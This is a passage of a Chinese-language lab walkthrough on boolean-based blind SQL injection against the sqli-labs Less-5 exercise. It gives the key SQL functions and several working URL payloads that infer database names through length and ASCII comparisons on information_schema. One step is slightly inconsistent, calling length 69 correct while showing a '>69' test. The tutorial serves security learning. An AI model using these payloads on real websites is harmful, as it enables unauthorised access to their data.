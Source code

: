 ![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732112497811-d50e4ed5-b2c5-4d9a-b6c1-6dfe52385903.png)

**结果**

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732112540130-8a2be891-6007-41c5-9bb9-eb3f8d19ca24.png)

### 布尔盲注
#### 含义：
**布尔盲注的特点是，正确会有回显，错误没有回显。做题时，需要判断回显正确的条件是什么**

#### 重要函数
```sql
# 获取字符串str长度
length(str)
# 截取字符串,a是待截取的字符串，b是开始截取的位置（0号位是1），c是截取的长度
substr(a,1,1)
# 获取字符a的ascii码
ascii(a)
# 注意！！！
# 在包含select句子时，应该多加个括号
```

#### 以 Less5 为例(已知单引号闭合)
##### 不使用 sqlmap
###### 判断数据库长度
**先试试 50，正确**

```sql
?id=1' and length((select group_concat(schema_name) from information_schema.schemata))>50--+
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732069082523-7f006779-3071-498e-a32e-b6ad887f2b74.png)

**再看看 70，不对**

```sql
?id=1' and length((select group_concat(schema_name) from information_schema.schemata))>70--+
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732069166563-85d98fae-70e9-4a21-b0d1-b39741bf27a0.png)

**多试试，最后发现长度 69 是对的**

```sql
?id=1' and length((select group_concat(schema_name) from information_schema.schemata))>69--+
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732069241455-061a4800-b03d-4140-8143-76fca65d1ec2.png)

###### 再判断判断具体字符
**这个字符的 ascii 码是大于 90 的**

```sql
?id=1' and ascii(substr((select group_concat(schema_name) from information_schema.schemata),1,1))>90--+
```

